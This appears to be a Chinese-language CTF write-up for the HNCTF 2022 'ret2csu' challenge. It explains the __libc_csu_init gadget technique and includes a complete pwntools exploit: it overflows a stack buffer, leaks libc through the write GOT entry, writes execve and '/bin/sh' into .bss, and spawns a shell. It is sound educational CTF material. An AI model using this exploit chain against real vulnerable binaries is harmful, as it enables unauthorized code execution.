

# [HNCTF 2022 WEEK2]ret2csu

ret2csu 入门题，使我疯狂好几天。  

## 题面
hint：试试用_libc_csu_init函数里的gadget来控制寄存器和程序执行流  

压缩包内容：
```
❯ unzip -l ret2csu.zip
Archive:  ret2csu.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
  2216304  2022-09-30 01:19   ret2csu/libc.so.6
    16896  2022-09-29 23:18   ret2csu/ret2csu
      284  2022-09-29 15:45   ret2csu/ret2csu.c
        0  2022-10-03 22:01   ret2csu/
---------                     -------
  2233484                     4 files
```

提供了 libc.so.6 ，不错。  

## ret2csu
在动态链接的 64 位 Linux 二进制文件中，存在 `__libc_csu_init` 用于对 libc 进行初始化操作。  
该函数有两个片段：
``` asm
part1: 
.text:00000000004012A6                 add     rsp, 8
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn

part2: 
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
```
不同二进制文件略有差别，但基本上就是寄存器的位置不太一样。  
对于当前的 __libc_csu_init 片段，我们可以调用 `[r15+rbx*8]`  内的地址函数。  
因为 64 位使用寄存器传参，对应如下： 

| 作用       | 寄存器 |
|------------|--------|
| 第一个参数 | `rdi`  |
| 第二个参数 | `rsi`  |
| 第三个参数 | `rdx`  |

而恰好，第二部分有 `mov rdi, r12d` 可以借由 r12 对 rdi 的低 4 字节进行赋值。而 r12 又存在于第一块区域内可以由 pop 弹入。  
同理，rsi, rdx 都可从 part1 从栈上获得，然后借由 part2 输入到对应寄存器。  
因为最后，调用是 `[r15+rbx*8]` 所以一定要让 rbx 置 0 才能获得正确的地址。  
我们把上面的片段合并起来是这样的：
``` asm
.text:0000000000401290 loc_401290:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
.text:00000000004012A6
.text:00000000004012A6 loc_4012A6:                             ; CODE XREF: __libc_csu_init+35↑j
.text:00000000004012A6                 add     rsp, 8
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
```

在这里有一次 `cmp rbp, rbx`，为了跳出 loc_401290 这段，需要将 rbp 和 rbx 变成一样的。而前面有 `add rbx, 1` 所以需要将 rbp 设置为 1 才能达到目的。  

而且，因为 part2 运行完还会接着运行 Part1。下面有很多出栈操作，还需要在栈上填充 (6 * 8 + 8) 字节，然后再后面放上 ret 的地址，离开 __libc_csu_init，继续操作。  
综上，可以总结为这样的利用函数：
``` python
def csu_gadget(part1, part2, ret, jmp2, arg1=0x0, arg2=0x0, arg3=0x0):
    payload = p64(part1)
    payload += p64(0x0)
    payload += p64(0x1)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)
    payload += p64(jmp2)
    payload += p64(part2)
    payload += cyclic(0x38)
    payload += p64(ret)
    return payload
```

## 分析
这道题用来作为 ret2csu 的例题。  
主要是 gadget 不够用于运行 execve。  

需要用到 __libc_csu_init 来获得大量 gadget 运行程序。  

--- 

首先 checksec 查看保护：
```
❯ pwn checksec ./ret2csu
[*] '/data/project/ctf-repo/pwn/nssctf/HNCTF_2022_WEEK2-ret2csu/ret2csu'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

还行。  

ida 静态分析：

``` c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stderr, 0);
  setbuf(_bss_start, 0);
  write(1, "Start Your Exploit!\n", 0x14u);
  vuln();
  return 0;
}

ssize_t vuln()
{
  _BYTE buf[256]; // [rsp+0h] [rbp-100h] BYREF

  write(1, "Input:\n", 7u);
  read(0, buf, 0x200u);
  return write(1, "Ok.\n", 4u);
}
```

关键在 vuln 函数。  
可以写入 0x200 数据，远大于栈大小。可以栈溢出。  

## 利用
此题明确要 ret2csu。首先 ida 找到 `__libc_csu_init`，确定寄存器顺序。  
确定 part1 从 0x4012aa 开始，跳过 `add rsp, 8`，而 part2 从 0x401290 开始。  
``` asm
.text:0000000000401290 loc_401290:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
.text:00000000004012A6
.text:00000000004012A6 loc_4012A6:                             ; CODE XREF: __libc_csu_init+35↑j
.text:00000000004012A6                 add     rsp, 8
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
```

首先需要拿到 libc 基址。可以通过 write 把 write.got 写到 stdout 上得到 write 地址，通过给的 libc 拿到基址。  
这一步就要用到 ret2csu 了。  
我们在之前就已经封装为一个函数：

``` python
def csu_gadget(part1, part2, ret, jmp2, arg1=0x0, arg2=0x0, arg3=0x0):
    payload = p64(part1)
    payload += p64(0x0)
    payload += p64(0x1)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)
    payload += p64(jmp2)
    payload += p64(part2)
    payload += cyclic(0x38)
    payload += p64(ret)
    return payload
```

首先 write 拿到基址，并得到相关函数在 libc 的地址：  
``` python
csu_part1 = 0x4012AA
csu_part2 = 0x401290
main_addr = 0x4011E1
bss_base = 0x404080
write_got = elf.got["write"]
read_got = elf.got["read"]


payload = b"a" * (0x100 + 0x8) + csu_gadget(
    csu_part1, csu_part2, main_addr, write_got, 1, write_got, 8
)
io.send(payload)
io.recvuntil(b"Ok.\n")
write_addr = u64(io.recv(8))
print("write address = ", hex(write_addr))
base_libc = write_addr - libc.sym["write"]
print("base libc address = ", hex(base_libc))
execve_addr = base_libc + libc.sym["execve"]
print("execve address = ", hex(execve_addr))
```


但是注意到那边的函数调用是:
``` asm
call   QWORD PTR [r15+rbx*8]
```
使用 `[]` 取地址对应的内存单元中的值。所以不能直接写地址，而是要再另找一个地方写地址与需要的字符串。然后取该地方的地址，间接跳转。  

用 pwndbg 的 vmmap 找到可读写的内存段：


看来 0x404000 之后是个不错的地方。  
因为没有 PIE， 用 IDA 发现这块原来是 .bss。前面有些数据就不给动了。取 0x404100 作为我们写入的地方。  
可以用 read 从标准输入写入到该地址：  
```
read(0, bss_base, 16)  
```
需要写入 execve 的地址和`/bin/sh\x00`  
前面 8 字节用于放 execve 地址，后面偏移量为 8 的地方放 /bin/sh。  
因为 execve 在 got 表没有被调用，所以需要额外从 libc 获得，前面的 write 和 read 都是在程序加载过程被调用过的。  

``` python
bss_base = 0x404100

payload = b"a" * (0x100 + 0x8) + csu_gadget(
    csu_part1, csu_part2, main_addr, read_got, 0, bss_base, 16
)

io.recvuntil(b"Input:")

io.send(payload)
io.send(p64(execve_addr) + b"/bin/sh\x00")
```
这样就写入到 bss 段了。  

接下来就是调用 execve：
``` python
payload = b"a" * (0x100 + 0x8) + csu_gadget(
    csu_part1, csu_part2, main_addr, bss_base, bss_base + 8, 0, 0
)
io.recvuntil(b"Input:")
io.send(payload)
```

三次使用 csu，一步步走到执行 execve，中间理解还是蛮艰难的。  

## exp
``` python
from pwn import *

context.log_level = "debug"
io = process("./ret2csu")
elf = ELF("./ret2csu")
libc = ELF("./libc.so.6")


def csu_gadget(part1, part2, ret, jmp2, arg1=0x0, arg2=0x0, arg3=0x0):
    payload = p64(part1)
    payload += p64(0x0)
    payload += p64(0x1)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)
    payload += p64(jmp2)
    payload += p64(part2)
    payload += cyclic(0x38)
    payload += p64(ret)
    return payload


csu_part1 = 0x4012AA
csu_part2 = 0x401290
main_addr = 0x4011E1
bss_base = 0x404100
write_got = elf.got["write"]
read_got = elf.got["read"]


payload = b"a" * (0x100 + 0x8) + csu_gadget(
    csu_part1, csu_part2, main_addr, write_got, 1, write_got, 8
)
io.send(payload)
io.recvuntil(b"Ok.\n")
write_addr = u64(io.recv(8))
print("write address = ", hex(write_addr))
base_libc = write_addr - libc.sym["write"]
print("base libc address = ", hex(base_libc))
execve_addr = base_libc + libc.sym["execve"]
print("execve address = ", hex(execve_addr))

payload = b"a" * (0x100 + 0x8) + csu_gadget(
    csu_part1, csu_part2, main_addr, read_got, 0, bss_base, 16
)

io.recvuntil(b"Input:")

io.send(payload)
io.send(p64(execve_addr) + b"/bin/sh\x00")

payload = b"a" * (0x100 + 0x8) + csu_gadget(
    csu_part1, csu_part2, main_addr, bss_base, bss_base + 8, 0, 0
)
io.recvuntil(b"Input:")
io.send(payload)
io.interactive()
```

## 参考资料
1. CTF 竞赛权威指南 Pwn 篇
2. [知乎 x86_64 函数调用约定](https://zhuanlan.zhihu.com/p/23162481365)
